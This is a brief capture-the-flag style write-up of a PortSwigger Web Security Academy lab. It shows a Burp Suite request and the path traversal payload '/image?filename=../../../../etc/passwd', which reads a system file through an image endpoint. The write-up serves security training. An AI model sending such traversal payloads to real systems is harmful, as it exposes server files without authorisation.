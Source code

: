 
---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the "view details" request in BurpSuite

```html

GET /product?productId=11 HTTP/2
Host: 0ae8003604e31d2880ab0d0e0074008b.web-security-academy.net
Cookie: session=************************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae8003604e31d2880ab0d0e0074008b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> The vulnerability contains in the display of product **images**

> Change the request to **image**

```html

GET /image

```

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> I get a response that the parameter **'filename'** is missing

> send a request with the parameter **"filename"** and try to read the file **"passwd"** in the system

```html

GET /image?filename=../../../../etc/passwd

```
> Response:

![passwd_file](./screenshots/passwd_file.png)

> lab solved:

![solved_lab](./screenshots/solved_lab.png)
